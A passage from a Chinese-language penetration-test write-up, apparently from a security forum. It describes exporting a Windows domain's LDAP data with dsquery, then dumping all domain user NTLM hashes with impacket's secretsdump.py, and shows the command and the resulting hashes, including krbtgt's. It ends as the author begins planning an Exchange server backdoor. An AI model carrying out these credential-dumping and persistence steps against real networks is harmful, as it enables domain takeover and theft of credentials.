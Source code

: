 ![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-718744a2eef59b1c68519c9e584a71e0880d296d.png)

0x06 搜集所有的域信息
=============

在刚才的机器B上，笔者发现net user /domain等命令可以正常执行了。并且笔者的运气非常好，这次精准命中域管。在进行下一步操作前，先了解以下这个域的基本情况，执行命令太过繁琐，直接远程导出域的ldap信息：

从windows2003中扣出一个并用dsquery.exe上传到目标机器

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-7685238ba535f8780dfd3e71e06b337a4b7e2234.png)

通过dsquery导出相关域信息。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-42dfd0eb0931e99e468db22f128c74744bdcc23d.png)

下载all.txt到本地

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-3c223da0c49508138e7236c75179c6350caa5fd1.png)

拿到域信息，包含机器，组，人员，邮箱等重要信息。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-37f55ec92d17a058473756dc7941dd1e5701071b.png)

0x07 获得域内所有用户hash
=================

有了域管hash后，可以使用dcsync,还原ntds等方式导出域hash。这里还是使用impacket工具包中的secretsdump.py进行操作。

```php
root@kali:~/Tools/impacket/examples# python secretsdump.py pwnable.com/victim-user@mydc02.pwnable.com -just-dc
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

Password:
\[\*\] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
\[\*\] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e7a4df117f282d3ebecb49b4b5a400a3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d1633931245c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0f6a08c7f25535789158e8a42d2502c:::
SUPPORT\_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:d252222b2078d1afb2045a16f3b0d3a:::
pwnable.com\\victim-user1:1134:aad3b435b51404eeaad3b435b51404ee:010f638de4537bf78a45cca0fa44020d:::
pwnable.com\\victim-use3:1157:aad3b435b51404eeaad3b435b51404ee:3f59bb59c9aa5fc5322074f7a1d6aae0:::
pwnable.com\\victim-user2:1161:aad3b435b51404eeaad3b435b51404ee:46fe9267487e1120c571b1b556505163:::
pwnable.com\\victim-user:1164:aad3b435b51404eeaad3b435b51404ee:7edb2c4cd674b87ffaeb90f6ee29c061:::
```

和之前边界机器A上抓到的hash进行比较发现确实不同，坐实了之前机器A脱域的猜想。

0x08 驻留后门
=========

通过前期对外网资产的一些盘点，发现了exchange邮件服务器，并计划在该服务器上留后门。exchange作为内网渗透兵家必争之地，留下后门给我们后续的渗透提供了极大的便利。具体的利用后续会专门出相关的文章来介绍。

定位exchange服务器
-------------
